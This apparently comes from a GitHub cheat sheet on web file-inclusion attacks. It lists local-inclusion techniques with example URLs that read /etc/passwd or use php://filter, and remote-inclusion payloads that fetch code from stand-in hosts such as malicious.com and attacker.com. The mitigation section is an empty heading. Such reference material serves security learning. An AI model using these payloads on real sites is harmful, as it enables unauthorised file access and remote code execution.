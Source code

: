 # File inclusion

File inclusion is a web vulnerability allowing attackers to include files on a server through a web application, potentially leading to unauthorized access, data exposure, or code execution.

## METHODS TO PEFORM FILE INCLUSION

## 1.Advanced Techniques for LFI
- ###Directory Traversal

Attackers can use directory traversal sequences (e.g., ../) to navigate the file system and include files outside the intended directory.
Example:
```text
http://example.com/page.php?file=../../etc/passwd
```
- ### Null Byte Injection

In some cases, attackers can exploit null byte (%00) injection to terminate strings in file paths, allowing them to bypass file extension checks.
Example:
```text
http://example.com/page.php?file=somefile.php%00.jpg
```
- ### Log File Inclusion

Attackers can include log files that contain user input, potentially leading to code execution if the input is malicious.
Example:
```text
http://example.com/page.php?file=/var/log/apache2/access.log
```
- ### PHP Wrapper Exploitation

Attackers can use PHP wrappers (e.g., php://filter, php://input) to read files or execute code.
Example:
```text
http://example.com/page.php?file=php://filter/convert.base64-encode/resource=index.php
```
- ### File Inclusion via Session Variables

If the application uses session variables to determine file paths, attackers can manipulate these variables to include arbitrary files.
Example:
```text
// Set session variable to include a sensitive file
$_SESSION['file'] = '../../etc/passwd';
```
## 2.Advanced Techniques for RFI
- ### Remote File Inclusion

Attackers can include files from remote servers if the application does not validate the source of the file.
Example:
```text
http://example.com/page.php?file=http://malicious.com/malicious.php
```
- ### Using Local Files as a Proxy

Attackers can host a malicious file on their server and trick the application into including it by using a local file as a proxy.
Example:
```text
http://example.com/page.php?file=http://localhost/malicious.php
```
- ### Exploiting Misconfigured Servers

If a server is misconfigured to allow file uploads, attackers can upload a malicious file and then include it.
Example:
```text
// Upload a file named malicious.php
http://example.com/upload.php?file=malicious.php
```
- ### Using Protocols

Attackers can exploit different protocols (e.g., FTP, HTTP) to include files from remote locations.
Example:
```text
http://example.com/page.php?file=ftp://attacker.com/malicious.txt
```
- ### DNS Rebinding

Attackers can use DNS rebinding to trick the application into including files from a malicious server that appears to be a trusted domain.
Example:

An attacker sets up a domain that resolves to their server and then uses it in the RFI payload.

## MITIGATION FOR FILE INCLUSION



